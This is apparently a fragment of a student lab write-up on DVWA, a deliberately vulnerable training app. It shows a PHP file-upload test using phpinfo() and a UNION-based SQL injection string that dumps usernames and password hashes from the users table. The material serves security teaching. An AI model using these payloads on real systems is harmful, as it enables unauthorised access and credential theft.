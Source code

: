 5. **Vulnerability: File Upload**  

**Level low**

```php
# filename:test.php
<?php phpinfo();?>
```

然后上传该文件，访问**yourip:port/dvwa/vulnerabilities/upload/../../hackable/uploads/test.php**  

<img src="综合实践VI.assets/image-20250506094133996.png" alt="image-20250506094133996" style="zoom: 33%;" />

6. **Vulnerability: SQL Injection**   

**Level: High**

**Input:**  ```-2' union select 1,(SELECT GROUP_CONCAT(user,password SEPARATOR 0x3c62723e) FROM users)#```
